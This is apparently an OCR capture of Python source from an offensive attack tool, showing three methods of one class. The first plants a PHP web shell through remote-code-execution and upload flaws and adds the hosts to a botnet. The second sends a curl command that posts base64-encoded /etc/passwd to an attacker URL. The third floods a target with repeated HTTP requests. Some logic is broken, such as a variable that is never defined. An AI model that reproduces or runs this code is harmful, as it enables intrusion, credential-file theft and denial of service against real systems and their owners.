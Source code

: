     def deploy_backdoor(self):
        print("[*] Deploying backdoors...")
        for backdoor in self.backdoors:
            if backdoor["type"] in ["RCE", "File Upload"]:
                url = backdoor["url"]
                try:
                    backdoor_payload = f"<?php file_put_contents('backdoor.php', '<?php system($_GET[\"cmd\"]); ?>'); ?>"
                    polymorphic_payload = self.generate_polymorphic_payload(backdoor_payload)
                    self.session.get(f"{url}?cmd={polymorphic_payload}", timeout=10)
                    print(f"[!] Backdoor deployed on {url}!")
                    self.botnet.append(url)
                except:
                    pass

    def exfiltrate_data(self):
        print("[*] Exfiltrating data...")
        success = False
        for backdoor in self.backdoors:
            if backdoor["type"] in ["RCE", "File Upload"]:
                url = backdoor["url"]
                try:
                    exfil_payload = f"curl -X POST {self.attacker_url}/steal -d 'data='$(cat /etc/passwd | base64)"
                    self.session.get(f"{url}?cmd={exfil_payload}", timeout=10)
                    time.sleep(2)
                    if stolen_data:
                        encrypted_data = self.cipher.encrypt(stolen_data[-1].encode()).decode()
                        print(f"[!] Data exfiltrated from {url}: {encrypted_data}")
                        success = True
                except:
                    pass
        self.update_rl_model("exfiltrate", success)

    def launch_ddos(self):
        print("[*] Launching DDoS attack with botnet...")
        success = False
        for bot in self.botnet:
            for _ in range(100):
                try:
                    if "http" in bot:
                        subprocess.run(["curl", "-X", "GET", self.target_url], timeout=1)
                    else:
                        ip, port = bot.split(":")
                        sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
                        sock.connect((ip, int(port)))
                        sock.send(b"GET / HTTP/1.1\r\nHost: target\r\n\r\n" * 1000)
                        sock.close()
                    print(f"[!] DDoS packet sent from {bot}")
                    success = True
                except:
                    pass
        self.update_rl_model("ddos", success)
